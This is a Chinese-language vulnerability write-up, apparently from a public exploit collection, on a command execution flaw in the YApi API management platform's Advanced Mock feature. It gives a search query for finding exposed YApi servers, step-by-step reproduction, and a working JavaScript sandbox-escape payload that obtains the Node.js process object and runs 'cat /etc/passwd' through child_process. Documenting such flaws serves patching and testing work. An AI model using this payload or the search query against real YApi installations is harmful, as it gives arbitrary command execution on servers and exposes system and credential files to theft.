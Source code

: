 # YApi 接口管理平台 后台命令执行漏洞

## 漏洞描述

YApi 接口管理平台 后台存在命令执行漏洞，攻击者通过发送特定的请求可执行任意命令获取服务器权限

## 漏洞影响

```
YApi 接口管理平台
```

## 网络测绘

```
app="YApi"
```

## 漏洞复现

登录页面

![](images/202202091829002.png)



首先需要注册账户并登录



![](images/202202091829520.png)



![](images/202202091829602.png)



添加项目，参数任意



创建后点击 高级Mock 输入如下Payload



```javascript
const sandbox = this; // 获取Context
const ObjectConstructor = this.constructor; // 获取 Object 对象构造函数
const FunctionConstructor = ObjectConstructor.constructor; // 获取 Function 对象构造函数
const myfun = FunctionConstructor('return process'); // 构造一个函数，返回process全局变量
const process = myfun();
mockJson = process.mainModule.require("child_process").execSync("cat /etc/passwd").toString()
```



![](images/202202091830184.png)



预览处点击项目链接



![](images/202202091830086.png)